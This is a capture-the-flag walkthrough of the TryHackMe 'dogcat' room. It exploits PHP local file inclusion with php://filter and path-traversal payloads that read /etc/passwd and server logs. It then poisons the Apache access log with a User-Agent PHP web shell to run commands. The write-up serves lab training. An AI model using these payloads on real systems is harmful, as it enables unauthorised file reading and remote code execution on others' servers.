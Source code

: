 Writeup for [dogcat](https://tryhackme.com/r/room/dogcat)

### Recon
```
1. Inspect the code
<a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
2. Notice ?view=dog and ?view=cat, can using php wrapper
```
Using wrapper payloads from [this repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter)
`?view=php://filter/convert.base64-encode/resource={resource}`

And after a while, we got a hint at
`?view=php://filter/convert.base64-encode/resource=dog`
give as `PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K` which is base64 encoded
`<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />` which is directory somewhere on the system.

Next try
`?view=php://filter/convert.base64-encode/resource=dog/../index` and we got a code of index
```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

Now we can see that code has vulnerabilities: 
`if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat'))` with ($_GET['view']) alow us using LFI or Path Traversal attacks vectors. If input is not properly sanitized or validated. An attacker could potentially execute arbitrary PHP code by manipulating the view parameter.
So if our user input contain «dog» or «cat», and ext is None we can see local files
`/?view=cat/../../../../../../etc/passwd&ext=` > we got access
`view-source:http://10.10.94.191/?view=cat/../../../../../../var/log/apache2/access.log&ext=` give us a new vector to RCE 

### First flag
```
view-source:http://10.10.71.22/?view=cat/../../../../../../var/log/apache2/access.log&ext&c=ls
view-source:http://10.10.71.22/?view=cat/../../../../../../var/log/apache2/access.log&ext&c=cat%20flag.php
```

### LFI to RCE
via log file with UserAgent HTTP header
```
curl "http://10.10.71.22/" -H "User-Agent: <?php system(\$_GET['command']); ?>"
Give us at log <b>Warning</b>:  system(): Cannot execute a blank command in <b>/var/log/apache2/access.log</b> on line <b>9</b><br />
Expoit ?view=cat/../../../../../../var/log/apache2/access.log&ext&c=id
```



